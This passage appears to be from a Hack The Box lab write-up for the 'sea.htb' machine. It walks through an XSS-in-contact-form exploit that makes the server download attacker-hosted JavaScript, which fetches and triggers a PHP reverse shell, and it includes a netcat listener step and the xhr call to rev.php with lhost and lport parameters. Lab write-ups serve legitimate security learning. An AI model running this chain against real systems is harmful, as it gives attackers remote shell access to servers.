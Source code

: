 > **Behind the scenes of the exploit tool:**
> 
> 1. The tool crafts a payload and a js file.
> 
> 2. The XSS payload should be injected in the contact form.
> 
> 3. Then the payload makes the server download our js file which is made by the tool, and execute it in the server.
> 
> 4. The JS file download a reverse shell script from a github repo and executes it by crafting an URL.

5. We can download the reverse shell GitHub zip file and start a Python server in our attacker machine to make the process easy. #ReverseShell 

![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*8lDD8vMgoPUWHlTO3ND1SA.png)

6. Then modify the xss.js JS file to get from our attacker machine instead of GitHub.

![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*diOVxM2Zj4zNTeuQFuMMPA.png)

7. Also, I found another problem with the JS file.

![captionless image](https://miro.medium.com/v2/resize:fit:1188/format:webp/1*pZck5pEtBd8OshVCVUF_Rw.png)

8. When we run the JS code in our browser console, we see the below.

![captionless image](https://miro.medium.com/v2/resize:fit:924/format:webp/1*4DFRGwVlp-kCKkCtCrq9nA.png)

9. The urlWithoutLogBase variable should be ‘sea.htb’ instead of ‘/’. In the last section of the JS file, the urlWithoutLogBase was used to download the reverse shell zip file.

10. We can get ‘sea.htb’ by using ‘hostname’ instead of pathname.

![captionless image](https://miro.medium.com/v2/resize:fit:1170/format:webp/1*LDwPEN4tUUenZy60W5eyKg.png)

11. Just change the JS file accordingly.

![captionless image](https://miro.medium.com/v2/resize:fit:1230/format:webp/1*SftypHTi0KPEW0anqz8s4w.png)

12. Now running the exploit python file will give us a payload to inject in contact form.

![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*wKvHy0IXtG4qjORjKNy-yw.png)

13. Let’s start a Netcat listener on port 4444 as we mentioned in the above command. #netcat

14. The victim server downloaded our files as intended.

![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*1EPJKeHMiyRfn6mU_dnDXA.png)

15. But we still haven’t got the reverse shell yet. Let’s inspect how the reverse shell file is executed in the JS file #ReverseShell 

```
xhr5.open("GET", urlWithoutLogBase+"/themes/revshell-main/rev.php?lhost=" + ip + "&lport=" + port);
```
